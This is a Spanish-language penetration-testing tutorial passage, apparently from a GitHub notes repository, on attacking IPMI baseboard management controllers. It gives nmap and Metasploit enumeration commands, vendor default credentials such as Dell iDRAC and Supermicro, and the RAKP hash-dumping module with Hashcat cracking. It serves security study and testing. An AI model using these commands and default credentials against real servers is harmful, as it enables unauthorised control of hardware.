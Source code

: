 Tener el control de este protocolo es lo mas parecido al control físico del objetivo, pues nos permite gestionar el hardware, apagar el dispositivo, inhabilitar dispositivos de E/S, etc.

IPMI se comunica a través del puerto *UDP 623*. Los sistemas que usan el protocolo son llamados Baseboard Management Controllers (**BMC**). La mayoría de sistemas viene con un BMC o con la capacidad de adquirir uno, los mas comunes son: HP iLO, Dell DRAC y Supermicro IPMI.

#### Enumeración del servicio

**NMAP:** Podemos usar los scripts NSE para identificar la versión del servicio de la siguiente manera:
``` bash
sudo nmap -sU --script ipmi-version -p 623 <IP>
```

**Metasploit:** También podemos usar varios módulos de metasploit que nos permitan el análisis de la versión de la siguiente manera:
``` bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts <IP>
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```
#### Obtención de Hashes

Para este servicio podemos encontrar que las contraseñas por defecto no han sido modificadas según los dispositivos antemencionados podemos probar las siguientes contraseñas:

| Marca           | User          | Password                         |
| --------------- | ------------- | -------------------------------- |
| Dell iDRAC      | root          | calvin                           |
| HP iLO          | Administrator | cadena aleatoria de 8 caracteres |
| Supermicro IPMI | ADMIN         | ADMIN                            |

Estas contraseñas pueden permitirnos acceder a la consola web del servicio o a la línea mediante SSH o Telnet.

Si las contraseñas anteriores no funcionan se puede recurrir a la falla en el protocolo RAKP en IPMI 2.0. Protocolo que envía un hash con la contraseña en SHA1 o MD5. Estos hash se pueden descifrar utilizando *Hashcat* en el modo 7300.

Para obtener los hashes de IPMI por fuerza bruta podemos usar el siguiente modulo de Metasploit:
``` bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts <IP>
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```

---

---

## **Remote Management Protocols**  

  